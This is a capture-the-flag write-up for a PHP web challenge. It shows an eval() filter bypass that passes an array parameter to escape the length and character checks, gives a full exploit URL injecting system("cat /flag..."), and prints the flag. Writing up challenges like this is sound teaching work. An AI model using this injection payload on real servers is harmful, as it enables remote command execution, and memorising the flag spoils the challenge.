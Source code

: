 ## ヽ(#`Д´)ﾉ
> **Category:** Web
> **Description:** 
> **Pad Link:** http://34.87.94.220/pad/web-d
> **Flag:** flag{!pee_echi_pee!}
---

## References


## Bugs

Given source:
```php
<?=
    highlight_file(__FILE__) // Open current file
    && strlen($🐱=$_GET['ヽ(#`Д´)ﾉ']) < 0x0A // Length of input must be < 10
    && !preg_match('/[a-z0-9`]/i',$🐱) // Input must not contain alphanumeric values (case-insensitive)
    && eval(print_r($🐱,1)); // Goal (probably finding "flag")
```

## Exploit Ideas

Able to bypass the `strlen()` and `preg_match()` checks by using an **array**:
```
http://chall.ctf.bamboofox.tw:9487/?ヽ(%23`Д´)ﾉ[]=<INPUT>
```

However, syntax keeps messing up due to the nature of how `eval()` is called:
```php
eval(print_r($🐱,1));
```

The idea is that print_r formats arrays like this:
~~~php
Array(
    [key1] => unescaped_and_unquoted_value1,
    [key2] => unescaped_and_unquoted_value2,
)
~~~

We need to close the array in print_r output to sth like this to eval:
~~~
Array(
    [junk] => 0
);
system("cat flag here"); /*
)
~~~

```
http://chall.ctf.bamboofox.tw:9487/?ヽ(%23%60Д´)ﾉ[A]=0);system("cat%20/flag_de42537a7dd854f4ce27234a103d4362");%20/*
```
flag{!pee_echi_pee!}

## Scripts

